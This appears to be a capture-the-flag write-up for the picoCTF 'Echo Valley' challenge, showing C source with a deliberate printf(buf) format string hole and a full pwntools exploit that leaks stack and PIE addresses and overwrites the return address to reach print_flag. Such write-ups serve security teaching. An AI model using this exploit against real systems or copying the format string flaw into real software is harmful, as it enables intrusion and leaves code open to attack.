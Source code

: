 After launching the instance, we are given the description:

**The echo valley is a simple function that echoes back whatever you say to it. 
But how do you make it respond with something more interesting, like a flag?
Download the source: [valley.c](https://challenge-files.picoctf.net/c_shape_facility/3540df5468ae2357d00a7a3e2d396e6522b24f7a363cbaff8badcb270d186bda/valley.c)
Download the binary: [valley](https://challenge-files.picoctf.net/c_shape_facility/3540df5468ae2357d00a7a3e2d396e6522b24f7a363cbaff8badcb270d186bda/valley)
Connect to the service at `nc shape-facility.picoctf.net 49319`**

and also the hint:

**Hints: Ever heard of a format string attack?**

After downloading the source and the binary, we take a look at the source code: 
```
#include <stdio.h>

#include <stdlib.h>

#include <string.h>

  

void print_flag() {

    char buf[32];

    FILE *file = fopen("/home/valley/flag.txt", "r");

  

    if (file == NULL) {

      perror("Failed to open flag file");

      exit(EXIT_FAILURE);

    }

    fgets(buf, sizeof(buf), file);

    printf("Congrats! Here is your flag: %s", buf);

    fclose(file);

    exit(EXIT_SUCCESS);

}

  

void echo_valley() {

    printf("Welcome to the Echo Valley, Try Shouting: \n");

  

    char buf[100];

  

    while(1)

    {

        fflush(stdout);

        if (fgets(buf, sizeof(buf), stdin) == NULL) {

          printf("\nEOF detected. Exiting...\n");

          exit(0);

        }

  

        if (strcmp(buf, "exit\n") == 0) {

            printf("The Valley Disappears\n");

            break;

        }

  

        printf("You heard in the distance: ");

        printf(buf);

        fflush(stdout);

    }

    fflush(stdout);

}

  

int main()

{

    echo_valley();

    return 0;

}
```


The *vuln.c* program has 3 functions: main(), echo_valley(), and print_flag(). 
Looking at echo_valley we immediately see a ```printf(buf);```that uses the buffer size 100 without format parameters. As such, we can assume this is what the hint was referring to. 

I took a look at the executable binary file with ```checksec``` 

![[Pasted image 20250324190354.png]]
Most of the protections were enabled, so instead of trying to overflow, we will need to replace the return value of the stack in the echo_valley() function to the address of the print_flag() function.

With this information in mind, I tried inputting multiple %p to find addresses to leak. 

Using **%21$p**, we get the return value
![[Pasted image 20250324192246.png]]

and **%20$p** is the stack leak
![[Pasted image 20250324192511.png]]

Using this information, we found the offset using GDB to get the return address of the echo_valley() function and also the print_flag() address. 

Here is our python code that automates this process using pwntools
```
from pwn import *

  

context.update(arch="amd64")

  

def leak(p):

    payload = b"%20$p.%21$p"

    p.sendlineafter(b"Try Shouting: \n", payload)

    return p.recv().strip().split(b" ")[-1]

  

#p = process("./valley")

p = remote("shape-facility.picoctf.net", 64728)

  

all_leaks       = leak(p)

pie_leak        = int(all_leaks.split(b".")[1], 16)

stack_leak      = int(all_leaks.split(b".")[0], 16)

pie_base        = pie_leak - 0x1413

print_flag      = pie_base + 0x1269

target_address  = stack_leak - 8

  

print("[+] pie leak: 0x%x" % pie_leak)

print("[+] stack leak: 0x%x" % stack_leak)

print("[+] pie base @ 0x%x" % pie_base)

print("[+] print_flag @ 0x%x" % print_flag)

print("[+] overwrite target @ 0x%x (echo_valley() return address)" % target_address)

  

# write the upper 4 bytes

writes  = {target_address: print_flag & 0xffffffff }

payload = fmtstr_payload(6, writes)

print(payload)

p.sendline(payload)

p.recvuntil(b"You heard in the distance: ")

  

# write lower 4 bytes

writes = {target_address + 4: print_flag >> 32 }

payload = fmtstr_payload(6, writes)

p.sendline(payload)

p.recvuntil(b"You heard in the distance: ")

  

p.sendline(b"exit")

p.recvuntil(b"The Valley Disappears\n")

  

p.interactive()
```

After running the code and remotely connecting to the server we get the flag. 
![[Pasted image 20250324193118.png]]
